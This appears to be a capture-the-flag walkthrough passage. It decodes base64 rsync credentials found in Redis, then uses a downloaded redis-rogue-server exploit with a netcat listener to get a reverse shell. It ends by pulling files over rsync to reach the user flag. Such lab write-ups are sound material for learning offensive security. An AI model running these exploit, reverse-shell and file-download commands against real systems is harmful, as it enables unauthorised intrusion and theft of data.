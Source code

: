 Furthermore, we have a list type item named `authlist`
Show it
![Pasted image 20241121105147.png](/img/user/attachments/Pasted%20image%2020241121105147.png)
We have an apparently a base 64 code. Try to decode it.
![Pasted image 20241121105342.png](/img/user/attachments/Pasted%20image%2020241121105342.png)
We found information to authenticate to the **rsync** service
## Redis - RCE (FAIL)
```shell
wget https://raw.githubusercontent.com/n0b0dyCN/redis-rogue-server/refs/heads/master/redis-rogue-server.py
wget https://raw.githubusercontent.com/n0b0dyCN/redis-rogue-server/refs/heads/master/exp.so
```

Before execute the exploit we need to start a listener on our machine
```shell
rlwrap nc -lnvp 4747
```

Now run the exploit
```shell
./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP> --passwd B6*****
```
![Pasted image 20241120110420.png|600](/img/user/attachments/Pasted%20image%2020241120110420.png)

It works, on our machine, the listener receives the reverse shell, and we are logged as the user `redis`
![Pasted image 20241120110457.png](/img/user/attachments/Pasted%20image%2020241120110457.png)

> [!Fail] Warning
> At this point, I enumerate the system to get a root shell, but it is not possible. So I continue to the following **Rsync - Connecting** section.
> I found services listening by only local host but trying to make a port forwarding, the `Redis` user doesn't have enough permissions to connect via SSH.
## Rsync - Connecting
With the credentials of rsync, try to connect.
Specifically, **list** `files` resource
```shell
rsync -av --list-only rsync://rsync-connect@10.10.137.165/files
```
![Pasted image 20241121141347.png|600](/img/user/attachments/Pasted%20image%2020241121141347.png)
**Download** them into my `/tmp/files` folder
```shell
rsync -av rsync://username@192.168.0.123:8730/shared_name /tmp/files
```
![Pasted image 20241121141814.png|600](/img/user/attachments/Pasted%20image%2020241121141814.png)

Now the files has been downloaded to my `/tmp/folder`
We can maneuver into the files.
> [!check] User flag
> Get the flag
> ![Pasted image 20241121142238.png](/img/user/attachments/Pasted%20image%2020241121142238.png)
